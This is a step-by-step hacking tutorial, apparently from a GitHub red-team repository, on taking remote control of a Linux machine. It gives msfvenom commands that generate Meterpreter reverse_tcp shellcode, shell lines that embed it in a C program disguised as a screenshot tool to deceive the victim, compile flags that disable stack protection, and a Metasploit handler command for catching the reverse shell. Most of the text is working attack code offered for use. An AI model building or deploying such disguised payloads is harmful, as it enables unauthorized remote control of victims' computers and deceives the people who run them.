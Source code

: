 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'Command Used (screenshot function)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit framework | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### STEP-BY-STEP (HOW-TO)

<br /><br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Start postgresql service

```
sudo service postgresql start
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
## Build raw shellcode in C
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode
  - -a payload arch
  - -f payload format
  - -o write output to a file 

<br />

#### See whats written inside chars.raw (optional)

```
cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

<br />

#### Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br />

#### Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


